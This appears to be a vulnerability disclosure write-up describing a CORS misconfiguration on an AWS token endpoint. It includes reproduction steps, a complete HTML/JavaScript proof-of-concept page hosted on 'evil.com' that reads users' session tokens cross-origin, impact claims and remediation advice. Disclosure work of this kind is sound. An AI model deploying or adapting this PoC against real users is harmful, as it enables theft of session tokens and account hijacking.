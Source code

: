 # 🔓 CORS Misconfiguration on AWS (`vs.aws.amazon.com/token`)

## 👋 Hello Hackers!!! 

While testing the `vs.aws.amazon.com/token` endpoint, I discovered a
**CORS misconfiguration** that allows an attacker-controlled origin to
interact with sensitive AWS session and visitor tokens. The endpoint
reflects the `Origin` header and sets:

- `Access-Control-Allow-Origin: <attacker-controlled-origin>`  
- `Access-Control-Allow-Credentials: true`  

This combination makes it possible for any malicious website to steal
AWS tokens from logged-in users.

---

## ⚡ Steps to Reproduce

1. Log in to AWS in a web browser.  
2. Host or open a malicious HTML page (example:  
   `https://evil.com/poc.html`) with the following code:

```html
<html>
<head>
  <title>CORS PoC</title>
</head>
<body>
  <button onclick="getToken()">Get AWS Token</button>
  <pre id="output">— no response yet —</pre>

  <script>
    function getToken() {
      fetch("https://vs.aws.amazon.com/token", {
        method: "POST",
        credentials: "include",
        headers: { "Content-Type": "application/json" },
        body: "{}"
      })
      .then(res => res.json())
      .then(data => {
        document.getElementById("output").innerText = JSON.stringify(data, null, 2);
      })
      .catch(err => {
        document.getElementById("output").innerText = "Error: " + err;
      });
    }
  </script>
</body>
</html> 
```
3. Visit the page while authenticated to AWS.
4. Click the Get AWS Token button.
5. Observe that the response returns sensitive session/visitor tokens
from vs.aws.amazon.com, even though the request originated from a
malicious site.

## 🖼️ Proof of Concept(PoC)
![IMG_9726](https://github.com/user-attachments/assets/7a0ade34-a585-4432-942f-d5941c0e8a5b)
![IMG_9727](https://github.com/user-attachments/assets/5dec2c3a-4fe1-43e4-a61c-880a29123c00)

## 🎯 Impact

- An attacker can exfiltrate AWS session/visitor tokens (awsd2c-token) from any logged-in user.
- These tokens are long-lived (Max-Age=31536000) and could be used to:
  - 🕵️ Track/correlate users across devices and services.
  - ⚠️ Potentially hijack sessions if combined with other weaknesses.
  - 🔑 Access metadata intended only for authenticated users.
**Severity: 🔴 Critical (CVSS 9.3)**

## 💡 Takeaways
- Even small misconfigurations (like reflecting Origin) can lead to serious credential leakage.
- Long-lived tokens increase the window of exploitation.
- CORS should always be restricted to trusted domains only — never dynamic reflection.
- Adding Access-Control-Allow-Credentials: true without strong origin checks is a red flag.

## ✅ Recommendation
- Do not dynamically reflect the Origin header.
- Restrict Access-Control-Allow-Origin to trusted domains only (e.g., https://aws.amazon.com).
- Avoid setting Access-Control-Allow-Credentials: true with untrusted origins.





